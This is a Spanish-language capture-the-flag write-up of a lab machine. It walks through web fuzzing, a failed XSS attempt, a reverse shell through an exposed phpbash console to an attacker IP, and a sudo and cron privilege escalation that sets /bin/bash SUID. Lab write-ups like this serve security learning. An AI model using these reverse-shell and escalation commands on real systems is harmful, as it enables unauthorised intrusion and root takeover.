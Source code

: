 10.10.10.68
-----------

Esta máquina solo tiene el purto 80 abierto (http):
```console
└─$ whatweb http://10.10.10.68
http://10.10.10.68 [200 OK] Apache[2.4.18], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

La web habla de una aplicacion que permite ejecutar comandos en consola *"phpbash"*. El unico enlace que da util
es a */single.html* que tiene una foto de esa aplicacion ejecutandose bajo la ruta /uploads/phpbash.php en otra
ip (10.10.10.27).

En nuestra maquina no existe esa ruta pero si /uploads, pero haciendo fuzzing no he dado con nada. El codigo
fuente de /uplads no tiene nada.

Haciendo fuzzing por rutas php
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.68/FUZZ.php

000001476:   200        0 L      0 W        0 Ch        "config"
000045226:   403        11 L     32 W       290 Ch      "http://10.10.10.68/.php"
```
El config php no tiene nada, sera idea de fuzzear parametros.
```console
└─$ wfuzz -c --hc=404 -t 200 --hl=0 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt "http://10.10.10.68/config.php?FUZZ=whoami";
```
Pero una vez mas no hay suerte. 

Fuzzing normal:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.68/FUZZ

000000324:   301        9 L      28 W       308 Ch      "php"                                                
000000002:   301        9 L      28 W       311 Ch      "images"                                             
000000536:   301        9 L      28 W       308 Ch      "css"                                                
000000820:   301        9 L      28 W       308 Ch      "dev"                                                
000000939:   301        9 L      28 W       307 Ch      "js" 
```


Este main.js nos habla de una ruta /php/sendMail.php a la que por POST y varios parametros. (La ruta /php tiene
directory listing y solo tiene este sendMail)
```js
'action': 'SendMessage',
'name': jQuery('#name').val(),
'email': jQuery('#contact-email').val(),
'subject': jQuery('#subject').val(),
'message': jQuery('#message').val()
```
Aparte de esto tiene un amplio codigo en patrones regez para que el correo tenga un formato correcto, por lo que
en ese campo tampoco se puede colar nada.
Si conseguimos mandar un email y que alguien lo vea, podemos hacer un ataque XSS. Como son muchos parametros,
se me hace mas comodo usar python.

```python
import requests

main_url = "http://10.10.10.68/php/sendMail.php"
data = {
    'action': 'SendMessage',
    'name': 'cucuxii',
    'email': 'cucuxii@mail.htb',
    'subject': 'test',
    'message': 'test'
}

req = requests.post(main_url, data)
print(req.status_code)
print(req.text)
```
La espuesta es un json '{"ResponseData":"Message Sent"}'. Parece que estamos haciendo la peticion bien.
Intente hacer un ataque XSS poniendo tanto en subject como en message ```<script src="http://10.10.14.7:8000">```
y ponerme en escucha por un servidor de python pero no resultó.

La ruta /dev tiene tanto phpbash como phpbash.min.php (version reducida?)
Esta utilidad nos da una consola, le metemos el clasico comando de reverse shell:
```bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'``` no funciona asi que urlencodeas los "&" a "%26" y ahi si.

Vamos a enumerar el sistema con mi script (lo deposite en /tmp con wget a mi ip y cambie el /usr/bin/bash
a /bin/bash):

- usaurios: root arrexel scriptmanager
- SUIDS -> /bin/ntfs-3g y /usr/bin/sudo (no se si es version vulnerable)
- sudo no password -> (scriptmanager : scriptmanager) NOPASSWD: ALL

A parte de eso nada mas, es un sistema relativamente vacio.
El scriptamanager es un usaurio y podemos ejecutar a nombre de el cualquier cosa segun esto:
```console
www-data@bashed:/tmp$ sudo -u scriptmanager whoami
scriptmanager
www-data@bashed:/tmp$ sudo -u scriptmanager bash
scriptmanager@bashed:/tmp$ 
```
Este chaval tiene el script "/scripts/test.py". Junto a eso hay un test.txt con la palabra "testing 123!" que
supongo será una contraseña, no me sirve para migrar al arrexel (pero su directorio /home tiene permisos
de lectura y eso me permitio leer su flag)

En cuanto a la ruta /scripts, root posee el test.txt pero el script test.py es del scriptmanager pero parece que
es quien ha escrito lo que pone en test.txt (que es de root). Aunque el script no sea de root, si este lo ejecuta
mediante cron cada poco tiempo, nos puede permitir escalar privilegios. Eso se comprueba al borrar el test.txt
y ver que pasado cierto rato vuelve a existir.
Otra cosa esque la fecha de test.py es 2017 mientras que la de test.txt es la actual.

He modifcado el script para que nos haga una bash SUID
```console
import os
os.system("chmod u+s /bin/bash")
```
Ahora 

```console
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```














